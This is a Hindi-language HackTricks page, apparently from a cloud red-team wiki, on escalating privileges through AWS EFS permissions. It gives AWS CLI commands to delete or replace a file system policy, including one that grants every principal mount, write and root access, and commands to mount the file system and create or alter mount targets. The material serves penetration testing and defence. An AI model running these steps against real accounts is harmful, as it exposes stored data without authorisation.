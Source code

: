 # AWS - EFS Privesc

{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## EFS

अधिक **EFS के बारे में जानकारी**:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

ध्यान रखें कि EFS को माउंट करने के लिए आपको उस सबनेटवर्क में होना चाहिए जहां EFS उजागर है और आपके पास इसका एक्सेस है (सुरक्षा समूह). यदि यह हो रहा है, तो डिफ़ॉल्ट रूप से आप इसे माउंट कर सकेंगे, हालांकि, यदि यह IAM नीतियों से सुरक्षित है तो आपको इसका एक्सेस प्राप्त करने के लिए यहां उल्लिखित अतिरिक्त अनुमतियाँ होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ एक हमलावर **फ़ाइल सिस्टम नीति को बदल सकता है** ताकि आपको इसका एक्सेस मिले, या बस इसे **हटा सकता है** ताकि **डिफ़ॉल्ट एक्सेस** प्रदान किया जाए।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसे बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ एक हमलावर **EFS को माउंट** कर सकेगा। यदि डिफ़ॉल्ट रूप से सभी को लिखने की अनुमति नहीं दी गई है जो EFS को माउंट कर सकते हैं, तो उसके पास केवल **पढ़ने का अधिकार** होगा।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग किया जा सकता है **लेखन** के लिए फ़ाइल सिस्टम के अंदर जब यह माउंट किया गया है और **रूट** के रूप में उस फ़ाइल सिस्टम **तक पहुंचने** के लिए।

**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **सबनेटवर्ग** में है जहां EFS का **कोई माउंट टारगेट** मौजूद नहीं है। तो उसे इस अधिकार के साथ अपने सबनेट में एक मात्र **एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिविलेज उन्नयन।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक स्थिति में जहां हमलावर को यह पता चलता है कि EFS में उसके सबनेटवर्क में माउंट टारगेट है लेकिन **कोई सुरक्षा समूह ट्रैफिक की अनुमति नहीं दे रहा है**, तो वह **बस उसे बदल सकता है चयनित सुरक्षा समूहों को संशोधित करके**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिविलेज उन्नति।



{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
